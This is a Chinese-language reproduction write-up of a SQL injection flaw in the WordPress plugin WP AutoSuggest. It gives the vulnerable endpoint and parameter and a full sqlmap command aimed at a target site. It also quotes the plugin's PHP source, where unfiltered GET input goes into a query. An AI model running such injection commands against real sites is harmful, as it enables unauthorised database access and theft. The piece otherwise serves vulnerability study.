# WordPress Plugin - AutoSuggest sql注入

> 原文：[https://www.zhihuifly.com/t/topic/3244](https://www.zhihuifly.com/t/topic/3244)

# WordPress Plugin - AutoSuggest sql注入

## 一、漏洞简介

WP AutoSuggest这款插件在访问者输入关键字时，插件会在提交搜索查询之前通过AJAX请求在网页中显示一些建议。访问者可以通过按Enter继续搜索，或者访问者可以使用键盘箭头直接访问建议的帖子。

## 二、漏洞影响

## 三、复现过程

首先我们得进入exploit-db网站上下载这个存在漏洞的版本的插件原始码和本地构建WordPress网站（本地构建WordPress这里就不说了）。下载源码，如下图所示



下载完成之后，把wp-autosuggest目录直接拖到Wordpress目录的\wp-content\plugins\下。



接着，登录后台，启用这款插件，如下图所示：



启用后，退出后台，如下图所示：



然后根据exploit-db网站上给出的漏洞详情，我们访问下面的URL：

```
http://www.0-sec.org/wp-content/plugins/wp-autosuggest/autosuggest.php?wpas_action=query&wpas_keys=1 
```

访问后，网页内容如下图所示：



根据exploit-db网站上给出的漏洞详情，我们也知道了wpas_keys参数存在注入，于是我们可以使用SQLMAP注入神器，对网站进行注入。SQLMAP命令如下：

```
sqlmap.py -u "http://www.0-sec.org/wp-content/plugins/wp-autosuggest/autosuggest.php?wpas_action=query&wpas_keys=1*" --technique BT --dbms MYSQL --risk 3 --level 5 --tamper space2comment 
```

一开始，笔者使用的时php5.2.17+Apache的环境，结果复现不了，头疼了半天，如下图：



后来笔者换了一个php-5.4.45+Apache的环境，就解决了。



通过SQLMAP，成功获取到服务器的一些信息，如下图所示：



下图也成功跑出了当前数据库的名称。



### 漏洞分析

分析WordPress插件的话还是挺容易的。文件和代码也不是很多，用Notepad++就够用啦。进入插件根目录下面就看到了autosuggest_functions.php、autosuggest.php这两个php文件。



下面是autosuggest.php文件所有代码：

```
<?php
include 'autosuggest_functions.php';

$wpas_action = ‘’;

$wpas_keys = ‘’;

if(isset($_GET[‘wpas_action’])) {

$wpas_action = $_GET[‘wpas_action’];

}

if (isset($_GET[‘wpas_keys’])) {

$wpas_keys = $_GET[‘wpas_keys’];

}

if ($wpas_action == ‘query’) {

```
require_once ('../../../wp-config.php');

header('Content-Type: text/xml');
echo '&lt;results&gt;';

global $wpdb;

$wpas_keys = str_replace(' ','%',$wpas_keys);
$pageposts = $wpdb-&gt;get_results("SELECT * FROM $wpdb-&gt;posts WHERE (post_title LIKE '%$wpas_keys%') AND post_status = 'publish' ORDER BY post_date DESC");
foreach ($pageposts as $post) {
    setup_postdata($post);
    echo "&lt;rs id=\"";
    the_permalink();
    echo "\" info=\"" . autosuggest_excerpt(apply_filters('the_title', get_the_content())) . "\"&gt;";
    the_title();
    echo "&lt;/rs&gt;";
}
echo '&lt;/results&gt;';
die(); 
```

}

define(‘AUTOSUGGEST_DIR’, get_option(‘siteurl’) . ‘/’ . PLUGINDIR.’/’.dirname(plugin_basename(**FILE**)));

function add_autosuggest_css() {

wp_register_style(‘autosuggestCSS’, AUTOSUGGEST_DIR . ‘/css/wp_autosuggest.css’, null, ‘1’, ‘screen’);

wp_enqueue_style(‘autosuggestCSS’);

}

function add_autosuggest_js() {

wp_register_script(‘autosuggestJS’, AUTOSUGGEST_DIR . ‘/js/wp.autosuggest.js’, null, ‘1’);

wp_enqueue_script(‘autosuggestJS’);

}

function add_autosuggest_footer_code() {

?>

<script type=“text/javascript”>

var autosuggest_options = {

script: “<?php echo AUTOSUGGEST_DIR; ?>/autosuggest.php?wpas_action=query&”,

varname: “wpas_keys”,

shownoresults:true,

noresults:"<?php echo __(‘No results found.’); ?>",

timeout:15000,

callback:autosuggestSelected,

maxresults: <?php echo get_wpas_option(‘wpas_maxresults’,‘10’); ?>

};

var as = new AutoSuggest(’<?php echo get_wpas_option(‘wpas_input_id’,‘s’); ?>’, autosuggest_options);

function autosuggestSelected(entry) {

document.location = entry[‘id’];

}

</script>

<?php

}

function add_autosuggest_settings() {

?>

<div class=“wrap”>

```
&lt;?php

    $smsg = "";
    if (isset($_POST['submitoptions'])) {
        if (isset($_POST['wpas_input_id'])) {
            update_option('wpas_input_id',$_POST['wpas_input_id']);
        }
        if (isset($_POST['wpas_maxresults'])) {
            update_option('wpas_maxresults',$_POST['wpas_maxresults']);
        }
        ?&gt;

        &lt;div id="message" class="updated fade"&gt;&lt;p&gt;WP AutoSuggest settings updated.&lt;/p&gt;&lt;/div&gt;

&lt;?php } ?&gt;

&lt;h2&gt;WP AutoSuggest Settings&lt;/h2&gt;

&lt;form action="" method="post"&gt;
&lt;table class="form-table"&gt;
    &lt;tr valign="top"&gt;
    &lt;th scope="row"&gt;Search Input ID&lt;/th&gt;
    &lt;td&gt;
    &lt;input type="text" value="&lt;?php echo get_wpas_option('wpas_input_id','s'); ?&gt;" id="wpas_input_id" name="wpas_input_id"/&gt;&lt;br/&gt;
    Default value is 's' which is used with the default WordPress theme. 
    &lt;/td&gt;
    &lt;/tr&gt;
    &lt;tr valign="top"&gt;
    &lt;th scope="row"&gt;Max Results&lt;/th&gt;
    &lt;td&gt;
    &lt;input type="text" value="&lt;?php echo get_wpas_option('wpas_maxresults','10'); ?&gt;" id="wpas_maxresults" name="wpas_maxresults"/&gt;&lt;br/&gt;
    Maximum number of suggested results (10 by default).
    &lt;/td&gt;
    &lt;/tr&gt;
&lt;/table&gt;
&lt;p class="submit"&gt;&lt;input type="submit" name="submitoptions" value="Update Settings" /&gt;&lt;/p&gt;
&lt;/form&gt;
&lt;/div&gt; 
```

<?php

}

function add_autosuggest_menu_settings() {

if (function_exists(‘add_options_page’)) {

add_options_page(

“WP AutoSuggest”

, “WP AutoSuggest”

, 7

, basename(**FILE**)

, ‘add_autosuggest_settings’);

}

}

add_action(‘wp_print_scripts’, ‘add_autosuggest_js’);

add_action(‘wp_print_styles’, ‘add_autosuggest_css’);

add_action(‘wp_footer’, ‘add_autosuggest_footer_code’);

add_action(‘admin_menu’, ‘add_autosuggest_menu_settings’); `?>` 
```

相信大家没看几行就看出了问题的所在，变量wpas_keys是直接获取GET中的wpas_keys。一点都没过滤，并且在下面代码中，变量wpas_keys也带入数据库中查询了（wpdb是wordpress操作数据库方法），于是SQL注入就产生了。



## 四、参考链接

> https://www.exploit-db.com/exploits/45977

> https://www.freebuf.com/vuls/191869.html